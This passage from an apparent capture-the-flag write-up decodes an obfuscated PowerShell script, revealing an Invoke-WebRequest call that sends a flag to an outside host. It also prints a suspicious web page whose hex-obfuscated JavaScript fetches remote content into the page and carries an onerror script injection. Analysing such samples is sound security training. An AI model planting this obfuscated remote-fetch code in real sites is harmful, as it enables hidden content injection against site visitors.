 As we can see it's obfuscated (shoutout to [Daniel Bohannon](https://github.com/danielbohannon/Invoke-Obfuscation)).
&nbsp;
We can manually deobfuscate it by rearranging the indexed chars, but to save some time we can use [PSDecode](https://github.com/R3MRUM/PSDecode). You can install this module both on Linux and Windows by copying it to your pwsh modules path.
> **→ Get-Content .\commands.ps1 \| PSDecode**{: style="color: red"}

Invoke-WebRequest -Uri "https://flag.xor.al/?flag=XOR{invok3_0bfusc4tion.ps1}"


&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/ps1.png){:.images}
&nbsp;


&nbsp;
&nbsp;


## 3. xhRReq
&nbsp;
**Challenge Description:**{: style="color: red"}
While doing our weekly scans on our website, we found this weird java script file but we don't understand nothing of it and developers don't remember to put it there.. Could you please tell us if this is harmful?
&nbsp;


> **→ unzip xhRReq.zip**{: style="color: red"} 

```
Archive:  xhRReq.zip
[xhRReq.zip] obfuscated.js password: xor2020
  inflating: obfuscated.js            
```

> **→ cat obfuscated.js**{: style="color: red"}

{% highlight html %}
<!DOCTYPE html>
<html>
<body>

<h2>Using the XMLHttpRequest Object</h2>

<div class="password">
<button type="button" onclick="myFunc() onerror=alert('xor2020')">Change Content</button>
</div>

<script>
var _cs=["\x64\x65","\x47\x45\x54","\x2f\x2f\x63","\x70\x73\x3a","\x2e\x63\x6f","\x6d\x2f\x31","\x37\x36\x61","\x38\x39\x65","\x6f\x6e","\x74\x72","\x6f\x6c\x63","\x6d\x6f","\x68\x74\x74",'\x66\x75\x6e\x63\x74\x69\x6f\x6e']; function _f0() { var _v0 = new XMLHttpRequest(); _v0.onreadystatechange = function() { if (this.readyState == 4 && this.status == 200) { document.getElementById(_cs[0]+_cs[11]).innerHTML = this.responseText; } }; _v0.open(_cs[1], _cs[12]+_cs[3]+_cs[2]+_cs[8]+_cs[9]+_cs[10]+_cs[4]+_cs[5]+_cs[7]+_cs[6]+"8", true); _v0.send(); }
</script>

</body>
</html>
{% endhighlight %}
&nbsp;
